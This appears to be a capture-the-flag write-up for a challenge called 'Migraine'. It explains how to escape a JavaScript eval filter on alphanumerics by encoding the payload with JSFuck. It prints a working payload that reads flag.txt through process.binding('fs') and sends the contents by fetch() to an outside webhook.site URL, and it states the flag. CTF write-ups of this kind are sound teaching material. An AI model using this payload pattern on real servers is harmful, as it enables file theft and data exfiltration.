 # Migraine

Author: `RogueGuardian`

This challenge gave me a migraine to develop, hopefully it doesn't do the same to you.

### Included Note
```
To: Acme Production Team
From: Acme Development Team

Yeah we're 3 weeks behind schedule and we need to push this to production.
As for the issue on section 3, yeah we couldn't figure out how to get output from eval so we will just have to roll with it.
And for the security team, please assure them that we filter out all numbers and letters in the first round so no one can write malicious things.
I think we're good to go!
```

## Solution
After looking at the source code, we see that we have arbitrary code execution in Javascript (as long as the payload doesn't match `A-Za-z0-9`). We also don't get any feedback from the server, so we'll need to exfiltrate the flag to a remote server. To get around the bad characters, we can encode our payload with [JSFuck](http://www.jsfuck.com/). Unfortunately, `require` doesn't work inside JSFuck. Instead, we can use the global `process` object to access system APIs. Here's my (terribly-written) payload that reads the flag, then ships it to a https://webhook.site/ URL via the query string.

```js
var url = "https://webhook.site/9e0f71f1-5174-469d-9148-a09b5257bcef";
var n = 100;
var buffer = Buffer.allocUnsafe(n);
var fs = process.binding('fs');
var path = "flag.txt";
// I don't know what these args actually are, but an exception told me to use this many args
var fd = fs.open(path, 2, 3, 4, 5);
// one of these seeks, so make it zero lmao
fs.read(fd, buffer, 0, n, 0, 0, 0);
var flag = buffer.toString();
console.log(flag)
fetch(url + "?flag=" + flag);
```

The encoded payload is in `payload.js`.

Flag: `gigem{JS_1s_r34lly_we1rd}`
